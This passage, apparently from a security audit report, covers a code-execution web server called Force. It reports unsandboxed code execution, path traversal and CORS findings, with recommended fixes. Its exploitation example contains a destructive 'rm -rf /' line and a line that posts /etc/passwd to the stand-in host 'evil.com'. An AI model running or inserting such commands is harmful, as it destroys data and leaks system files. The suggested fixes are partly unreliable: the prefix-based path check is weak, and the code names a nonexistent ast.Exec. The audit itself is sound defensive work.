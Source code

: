 **Issue**: The web server allows execution of arbitrary Python code without sandboxing or restrictions.

**Exploitation Example**:
```python
# Malicious Force code could execute:
import os; os.system('rm -rf /')  # Delete files
import requests; requests.post('evil.com', data=open('/etc/passwd').read())  # Exfiltrate data
```

**Recommendations**:
```python
# Option 1: Restricted globals
SAFE_GLOBALS = {
    '__builtins__': {
        'print': print,
        'str': str, 
        'len': len,
        'range': range,
        # ... only safe builtins
    }
}

# Option 2: AST validation
def validate_ast(node):
    """Only allow safe AST nodes"""
    forbidden = [ast.Import, ast.ImportFrom, ast.Exec, ast.Eval]
    for child in ast.walk(node):
        if any(isinstance(child, forbidden_type) for forbidden_type in forbidden):
            raise SecurityError("Forbidden operation detected")

# Option 3: Containerization
# Run code execution in Docker containers with limited resources
```

#### 2. Path Traversal in File Operations (HIGH)
**Location**: `force_compiler.py:574-588` - File I/O functions
**Risk Level**: 🟠 **HIGH**

**Issue**: `force_read_file` and `force_write_file` don't validate file paths.

**Recommendations**:
```python
import os
def safe_file_path(path):
    """Validate and sanitize file paths"""
    # Resolve path and check if it's within allowed directories
    resolved = os.path.realpath(path)
    allowed_dir = os.path.realpath('./user_files/')
    if not resolved.startswith(allowed_dir):
        raise SecurityError("File access outside allowed directory")
    return resolved
```

#### 3. CORS Misconfiguration (MEDIUM)
**Location**: `force_web_server.py:318` - `Access-Control-Allow-Origin: *`
**Risk Level**: 🟡 **MEDIUM**
